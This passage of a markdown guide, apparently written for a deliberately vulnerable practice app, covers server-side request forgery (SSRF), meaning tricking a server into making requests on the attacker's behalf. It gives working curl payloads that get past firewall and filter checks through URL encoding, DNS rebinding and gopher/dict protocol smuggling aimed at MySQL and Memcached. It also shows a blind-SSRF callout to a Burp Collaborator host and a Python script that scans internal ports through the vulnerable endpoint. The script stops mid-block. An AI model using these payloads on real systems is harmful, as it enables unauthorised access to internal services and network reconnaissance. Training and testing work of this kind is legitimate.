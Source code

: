 
### Scenario 4: Bypass WAF/Firewall
```bash
# Use different protocols
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"gopher://localhost:3306"}'

# URL encoding bypass
curl "http://localhost:3000/api/product-image?url=http%3A%2F%2F127%2E0%2E0%2E1%3A3000%2Fadmin%2Fusers"

# DNS rebinding
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://nip.io/admin"}'
```

---

## 💣 Advanced Exploitation Techniques

### 1. Blind SSRF Detection
When the response doesn't return content, use timing or external interactions:

```bash
# Use Burp Collaborator or similar
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"http://your-collaborator-url.burpcollaborator.net"}'

# Time-based detection
time curl "http://localhost:3000/api/product-image?url=http://non-existent-domain-12345.com"
```

### 2. Protocol Smuggling
```bash
# Try different protocols
curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"dict://localhost:11211/stats"}' # Memcached

curl -X POST http://localhost:3000/api/preview-url \
  -H "Content-Type: application/json" \
  -d '{"targetUrl":"ftp://localhost:21"}'
```

### 3. Port Scanning Script
```python
#!/usr/bin/env python3
import requests
import json

target = "http://localhost:3000/api/preview-url"
ports = [21, 22, 23, 25, 80, 443, 3306, 3389, 5432, 6379, 8080, 9200, 27017]

for port in ports:
    url = f"http://localhost:{port}"
    try:
        r = requests.post(target,
                         json={"targetUrl": url},
                         timeout=5)
        if r.status_code == 200:
            print(f"[+] Port {port} is open")
```